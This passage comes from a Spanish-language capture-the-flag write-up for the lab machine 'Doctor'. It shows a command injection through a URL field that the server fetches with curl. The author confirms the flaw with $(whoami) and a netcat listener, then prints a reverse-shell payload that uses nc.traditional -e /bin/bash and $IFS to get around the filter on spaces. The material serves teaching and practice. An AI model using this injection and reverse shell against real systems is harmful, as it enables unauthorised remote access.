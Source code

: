 ```bash
web@doctor:/home/shaun$ whoami
web
web@doctor:/home/shaun$ cat user.txt 
cat: user.txt: Permission denied
```

### Command Injection (2nd way)

Si nos ponemos a la escuha por el puerto `80`, y lo ponemos como campo:

```bash wrap=false
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [06/Sep/2025 18:07:42] code 404, message File not found
10.10.10.209 - - [06/Sep/2025 18:07:42] "GET /test HTTP/1.1" 404 -
^C
Keyboard interrupt received, exiting.
❯ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.209] 55992
GET /test HTTP/1.1
Host: 10.10.14.8
User-Agent: curl/7.68.0
Accept: */*
```

Vemos que hace un `curl` a la ruta que especifiquemos, vamos a probar a inyectar comandos:

```
http://10.10.14.8/$(whoami)
```

```bash wrap=false
❯ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.209] 56004
GET /web HTTP/1.1
Host: 10.10.14.8
User-Agent: curl/7.68.0
Accept: */*
```

Sabiendo esto usaremos el siguiente `payload`:

```txt wrap=false
http://10.10.14.29/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.8'$IFS'443')
```

Usamos `nc.traditional` porque `nc` no está instalado en la máquina víctima, y usamos `$IFS` que es una variable de entorno que vale:

```
$ echo "$IFS" | od -c
0000000  \t  \n
```

Es decir, un **tab** y un **salto de línea**, para poder poner espacios.
